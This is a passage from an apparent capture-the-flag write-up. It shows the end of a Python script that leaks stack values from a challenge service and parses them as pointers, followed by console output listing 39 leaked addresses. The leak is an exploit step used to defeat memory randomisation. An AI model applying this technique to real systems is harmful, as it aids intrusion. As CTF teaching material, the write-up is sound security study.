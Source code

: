 ```python
            pointer = 0
        else:
            pointer = int(leaked_string, 16)
        baseline.append(pointer)

    for i in range(len(baseline)):
        print("%-3d 0x%x" % (i+1, baseline[i]))
    #p.interactive()

if __name__ == '__main__':
    main()
```

When writing to index `26`, we notice something interesting in the output:

```console
[+] Opening connection to fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg on port 42000: Done
1   0x7f29b9cb3a03
2   0x0
3   0x7f29b9cb3980
4   0x5634bfab70a0
5   0x0
6   0x7ffe079258b0
7   0x5634bfab42e0
8   0x0
9   0x7f29b9aef0b3
10  0x7f29b9cec620
11  0x7ffe079258b8
12  0x100000000
13  0x5634bfab4100
14  0x5634bfab42e0
15  0xa02637a8a9d7550
16  0x5634bfab41f0
17  0x7ffe079258b0
18  0x0
19  0x0
20  0xf5fe6c5e253d7550
21  0xf45110276a537550
22  0x0
23  0x0
24  0x0
25  0x1
26  0x7ffe079258b8
27  0x7ffe079258c8
28  0x7f29b9cee190
29  0x0
30  0x0
31  0x5634bfab41f0
32  0x7ffe079258b0
33  0x0
34  0x0
35  0x5634bfab421e
36  0x7ffe079258a8
37  0x1c
38  0x1
39  0x7ffe0000dead
...
```
